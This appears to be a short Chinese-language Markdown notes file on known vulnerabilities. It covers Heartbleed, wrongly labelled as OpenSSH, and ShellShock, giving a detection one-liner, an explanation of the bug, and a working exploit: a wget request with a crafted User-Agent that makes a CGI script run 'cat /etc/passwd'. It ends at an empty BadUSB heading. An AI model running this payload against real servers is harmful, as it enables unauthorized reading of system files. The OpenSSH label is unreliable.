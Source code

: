 # 安全漏洞
### [OpenSSH] HeartBleed

* [关于OpenSSL“心脏出血”漏洞的分析](http://drops.wooyun.org/papers/1381)

### [Bash] ShellShock
检测方法：
```
#!bash
env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
```

利用方法：
```
#!bash
wget -U "() { test;};echo \"Content-type: text/plain\"; echo; echo; /bin/cat /etc/passwd" http://10.248.2.15/cgi-bin/testing.cgi
```
漏洞原因：
> Bash supports exporting not just shell variables, but also shell
functions to other bash instances, via the process environment to
(indirect) child processes ... The vulnerability occurs because
bash does not stop after processing the function definition; it
continues to parse and execute shell commands following the function
definition.

## BadUSB